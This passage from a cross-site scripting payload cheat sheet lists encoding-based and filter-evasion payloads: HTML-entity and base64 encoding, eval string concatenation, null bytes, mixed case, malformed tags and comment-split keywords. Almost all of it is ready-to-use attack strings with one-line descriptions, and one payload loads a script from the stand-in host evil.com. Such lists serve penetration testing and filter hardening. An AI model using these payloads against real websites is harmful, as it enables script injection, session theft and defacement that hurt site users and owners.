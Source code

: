 #### HTML Entities
- **Description:** Encoding characters to bypass simple filters.
- **Payload:** `<img src="x" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#39;XSS with HTML entities&#39;&#41;;">` (alerts 'XSS with HTML entities')

#### URL Encoding
- **Description:** Encoding characters in URL parameters.
- **Payload (in URL):** `http://example.com/?name=%3Cscript%3Ealert('XSS with URL encoding')%3C/script%3E`

#### Base64 Encoding
- **Description:** Encoding scripts, often used with `data:` URI scheme or `eval(atob())`.
- **Payload:** `<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTIHdpdGggQmFzZTY0Jyk8L3NjcmlwdD4="></iframe>`

#### String Concatenation/Manipulation
- **Description:** Building malicious strings in JavaScript to avoid direct detection.
- **Payload:**
  ```html
  <script>
  var x = "al";
  var y = "ert";
  var z = "('XSS from string concat')";
  eval(x + y + z);
  </script>
  ```

#### Null Bytes
- **Description:** Using null bytes (`%00`) to truncate strings and bypass filters. (Effectiveness varies by system and context)
- **Payload:** `<img src="java%00script:alert('XSS with null byte');">`

#### Case Variations
- **Description:** Using mixed case to bypass case-sensitive filters.
- **Payload:** `<ScRiPt>alert('XSS with case variations');</ScRiPt>`
- **Payload:** `<IMG SRC="jAvAsCrIpT:alert('XSS');">`

### Filter Evasion Techniques

#### Malformed Tags
- **Description:** Using incomplete or malformed tags that browsers might still parse.
- **Payload:** `<img ""\"><script>alert("XSS from malformed img")</script>">`
- **Payload:** `<<script>alert('XSS from extra bracket');//<</script>`

#### No Closing Script Tags
- **Description:** Some browsers will execute script even if the closing tag is missing, or auto-insert it.
- **Payload:** `<script src="http://evil.com/xss.js?<bm>" >`

#### Comments within Tags/Scripts
- **Description:** Using comments to break up keywords.
- **Payload:** `<img src="java<!-- -->script:alert('XSS with comment');">`
- **Payload:** `<scr<!-- -->ipt>alert('XSS with comment in tag');</scr<!-- -->ipt>`
